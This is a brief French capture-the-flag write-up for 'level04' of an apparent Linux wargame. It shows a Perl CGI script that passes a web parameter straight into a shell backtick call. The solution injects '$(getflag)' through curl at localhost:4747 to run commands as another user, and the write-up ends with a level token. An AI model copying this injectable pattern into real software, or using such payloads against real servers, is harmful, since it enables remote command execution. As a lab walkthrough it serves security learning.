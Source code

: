 # Rapport CTF - [level04]

### Observation:
En arrivant sur le niveau on trouve un script perl nommé `level04.pl` qui a été créé par flag04 et donc a les droits d'utiliser des commandes en tant qu'utilisateur 'flag04'.

### Code:
On `cat` le script:
```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
$y = $_[0];
print `echo $y 2>&1`;
}
x(param("x"));
```

On peut voir que le code affiche la variable `y` qui est le premier argument de la liste `x`


### Solution :
Nous pouvons donc modifier la variable x pour exécuter des commandes: 
`curl http://localhost:4747/level04.pl?x=command`
Nous devons utiliser curl pour demander directement au serveur sans passer par l'exécutable pour avoir les drois de `flag04`.
`curl http://localhost:4747/level04.pl?x='$(getflag)'`

Nous obtenons donc directement le mot de passe de level05 sans avoir besoin de passer par flag04.

token : ne2searoevaevoem4ov4ar8ap
